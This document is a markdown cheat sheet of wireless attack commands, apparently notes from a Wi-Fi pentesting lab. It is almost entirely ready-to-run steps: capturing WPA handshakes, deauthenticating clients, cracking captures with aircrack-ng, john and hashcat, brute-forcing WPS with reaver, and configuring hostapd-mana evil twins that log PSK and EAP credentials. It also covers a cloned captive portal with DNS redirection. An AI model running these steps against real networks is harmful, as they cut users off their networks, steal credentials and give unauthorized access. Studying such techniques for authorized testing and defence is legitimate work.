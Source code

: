 # Useful Wireshark Filter
0x08 means beacons
```wlan.fc.type_subtype == 0x08 && wlan.ssid == "<targetname>" ```

filter on bssid
```wlan.bssid == <bssid>```

# Capturing handshakes  

## Starting monitor mode  
```sudo airmon-ng start wlan0 ```

## Starting monitor mode and setting a channel  
```sudo airmon-ng start wlan0 3  ```

## Recon - see all  
```sudo airodump-ng wlan0mon```

## Recon specific (monitor channel 3)
```
sudo airmon-ng start wlan0 3
sudo airodump-ng --bssid <bssid> --essid <essid> wlan0mon -w <fileprefix> --channel <channel>
```
Then deauth from another shell or wifi card:
```sudo aireplay-ng -0 5 -a <BSSID> -c <client MAC> wlan0mon```

# Cracking handshakes

Default wordlists in Kali:  https://www.kali.org/tools/wordlists/

## Aircrack-ng
```aircrack-ng -w <path to wordlist> -e <ESSID> -b <BSSID> <capture filename>```

Aircrack with john rules
```sudo john --wordlist=<path to wordlist> --rules --stdout | aircrack-ng -e <ESSID> -b <BSSID> -w <capture filename>```

# Cracking wps

## Recon
```sudo wash -i wlan0mon ```

## Attacks
```sudo reaver -b <bssid> -i wlan0mon -v```

May need -K  
```sudo reaver -b <bssid> -i wlan0mon -v -K```

# Evil Twin with hostapd-mana
Wiki: https://github.com/sensepost/hostapd-mana/wiki

## PSK
```
interface=wlan0
ssid=groupB_target_3
channel=3
hw_mode=g
ieee80211n=1
wpa=2
wpa_key_mgmt=WPA-PSK
wpa_passphrase=ANYPASSWORD
rsn_pairwise=CCMP
mana_wpaout=/home/kali/groupB_target_3.hccapx
```

Then crack with aircrack-ng

## EAP

/etc/hostapd-mana/mana.eap_user
```
*     PEAP,TTLS,TLS,FAST
"t"   TTLS-PAP,TTLS-CHAP,TTLS-MSCHAP,MSCHAPV2,MD5,GTC,TTLS,TTLS-MSCHAPV2    "pass"   [2]
```


hostapd-mana config file
```# SSID of the AP
ssid=groupB_target_4

# Network interface to use and driver type
# We must ensure the interface lists 'AP' in 'Supported interface modes' when running 'iw phy PHYX info'
interface=wlan0
driver=nl80211

# Channel and mode
# Make sure the channel is allowed with 'iw phy PHYX info' ('Frequencies' field - there can be more than one)
channel=1
# Refer to https://w1.fi/cgit/hostap/plain/hostapd/hostapd.conf to set up 802.11n/ac/ax
hw_mode=g

# Setting up hostapd as an EAP server
ieee8021x=1
eap_server=1

# Key workaround for Win XP
eapol_key_index_workaround=0

# EAP user file we created earlier
eap_user_file=/etc/hostapd-mana/mana.eap_user

# Certificate paths created earlier
ca_cert=/etc/freeradius/3.0/certs/ca.pem
server_cert=/etc/freeradius/3.0/certs/server.pem
private_key=/etc/freeradius/3.0/certs/server.key
# The password is actually 'whatever'
private_key_passwd=whatever
dh_file=/etc/freeradius/3.0/certs/dh

# Open authentication
auth_algs=1
# WPA/WPA2
wpa=3
# WPA Enterprise
wpa_key_mgmt=WPA-EAP
# Allow CCMP and TKIP
# Note: iOS warns when network has TKIP (or WEP)
wpa_pairwise=CCMP TKIP

# Enable Mana WPE
mana_wpe=1

# Store credentials in that file
mana_credout=/home/kali/hostapd.credout

# Send EAP success, so the client thinks it's connected
mana_eapsuccess=1

# EAP TLS MitM
mana_eaptls=1
```

Start evil twin with command
```
sudo hostapd-mana <configfile>
```

## Cracking hashes

Extract hashes:
```grep <JTR/HASHCAT> | cut -f2 >> <hashfile>```

Hashcat and John syntax
```
sudo hashcat -m 5500 <hashfile> <wordlist> 
john --format=netntlm <hashfile> --wordlist=<wordlist>
```

# Connecting to target network

wifi supplicant config file:

```
network={
  ssid="<ssid>"
  scan_ssid=1
  psk="<password>"
  key_mgmt=WPA-PSK
}
```
Then to connect (use the -B after verifying the connection is successful)
```
sudo wpa_supplicant -i <interface> -c <config file> -B 
sudo dhclient <interface>
```

# Captive Portals
```
sudo apt install apache2 libapache2-mod-php
wget -r -l2 <site to clone>
```

create index.php from wget, copy needed files to /var/www/html/portal

copy login_check.php to /var/www/html/portal

set up network
```sudo ip addr add 192.168.87.1/24 dev wlan0
sudo ip link set wlan0 up
sudo apt install dnsmasq
```
create mco-dnsmasq.conf file and start dnsmasq
```
sudo dnsmasq --conf-file=mco-dnsmasq.conf
verify dns
sudo netstat -lnp
```

Install nftables if needed
```
sudo apt install nftables
sudo nft add table ip nat
sudo nft 'add chain nat PREROUTING { type nat hook prerouting priority dstnat; policy accept; }'
sudo nft add rule ip nat PREROUTING iifname "wlan0" udp dport 53 counter redirect to :53
```
Update apache to use ssl
```
sudo a2enmod ssl
sudo systemctl restart apache2
```

start the evil twin with the mco-hostapd.conf file
```sudo hostapd -B mco-hostapd.conf```
